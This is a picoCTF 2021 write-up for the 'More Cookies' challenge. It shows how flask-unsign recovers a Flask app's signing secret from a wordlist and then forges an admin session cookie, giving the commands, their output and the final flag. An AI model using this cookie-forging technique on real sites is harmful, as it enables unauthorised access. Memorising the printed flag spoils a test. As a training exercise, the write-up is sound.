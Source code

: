 # picoCTF2021 More Cookies Write Up

## Description

> Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py) [http://mercury.picoctf.net:53700/](http://mercury.picoctf.net:53700/)

## Solution

From the users perspective this application works identically to the one in the original cookies CTF - the user types in a cookie name and the application returns whether the input is a known cookie. This challenge differs in that the cookies used are flask tokens. Flask tokens are signed, meaning that the brute forcing approach used in the original cookies challenge is unfeasible.

The challenge includes a `server.py` file, containing the code being run on the server. Of particular interest now are the first few lines of the file:

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

In particular the last two lines are important. The second to last line saves a variety of cookie names in the variable `cookie_names`. The last line assigns the secret key of the application to be a random value from `cookie_names` i.e. the secret key used to sign the flask token is taken from this list of cookies. This information is useful for two reasons:

1. In order to create custom cookies the secret key is needed to sign these cookies.
2. Knowing the secret key is one of these cookie names greatly reduces the number of secret keys we need to check (the only alternative is to brute force the secret key).

In order to determine the specific secret key I used [flask-unsign](https://github.com/Paradoxis/Flask-Unsign), a command line utility for cracking flask tokens. First, I put the strings from `cookie_names` in a file called `wordlists.txt`, with each cookie name on a separate line:

```
snickerdoodle
chocolate chip
oatmeal raisin
...
```

Next I grabbed the session token (cookie) from the website. This will vary from browser to browser, but for me (using Firefox) I was able to access it by opening the developer tools, accessing the storage section followed by the cookie section (the cookie is the value). For me the cookie was:

```
eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZnLERQ.6aY588dXxa2ik4tBS7aTenCQjkI
```

With these pieces of data I could then run `flask-unsign` with the following arguments:

```
flask-unsign --wordlist wordlist.txt --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZnLERQ.6aY588dXxa2ik4tBS7aTenCQjkI' --no-literal-eval
```

This produced the following output:

```
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 29 attempts
b'peanut butter'
```

Thus the secret key is `peanut butter`. Note that if the app is restarted, the secret key will change (due to the random choice).

Knowing the secret key is half (and arguably the hardest half) of the challenge completed. All that remains is determining what our flask token should contain. Observe that the flask token is made up of three sections separated by periods. The first section contains the tokens data, base 64 encoded. Decoding the first section of the above token produces the following output:

```
{"very_auth": "blank"}
```

One would (correctly) assume that we would like to change `"blank"` to something of our own choosing. Analysing the `server.py` file again reveals to us what that choice should be:

```python
@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

```

Observe that the `flag.html` file is returned if `session["very_auth"]` is equal to `admin`. Thus it is clear that `"blank"` should be changed to `"admin"`.

To actually create the token we can use the `flask-unsign` utility again:

```
flask-unsign --sign --cookie '{"very_auth": "admin"}' --secret "peanut butter"
```

Which produces the following output:

```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZnLGLA.ar4k_bHaYQoYEl7X7o88J-yfoeM
```

Setting this flask token as the cookie for the website and refreshing the page produces the flag:

```
`picoCTF{pwn_4ll_th3_cook1E5_3646b931}`
```

